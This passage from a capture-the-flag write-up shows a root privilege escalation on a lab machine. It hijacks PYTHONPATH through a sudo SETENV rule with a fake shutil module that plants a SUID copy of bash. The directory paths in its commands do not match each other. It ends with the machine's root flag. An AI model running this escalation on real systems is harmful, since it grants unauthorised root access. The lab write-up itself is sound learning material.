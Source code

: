 ## 16 - i got stuck

Since i got stuck, i went ahead and tried to figure out how to abuse this sudo SETENV.
<br>
The channel ippsec had this room solved so i watched it.
<br>

His idea was to abuse the backup script by setting the python path to a folder controlled by waldo's account, create a fake library with the method make_archive.

<br>
This method will create a reverse shell instead of making the actual backup

Backup file
```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

My approach:<br>
instead of making a reverse shell, just create a copy of /bin/bash and set the suid bit...

```
mkdir /tmp/exp
vi /tmp/exp/shutil.py
sudo PYTHONPATH=/tmp/reckt admin_tasks.sh
```

Script code
```
import os
def make_archive(a1, a2, a3):
        os.system("cp /bin/bash /tmp/reckt/root; chmod +s /tmp/reckt/root");
```

NOTE: a symlink would also work


## 17 - root

```
whoami
root

cat /root/root.txt
FLAG: 6024cb1b55bfcff6d3f1d978db5fd9d4
```









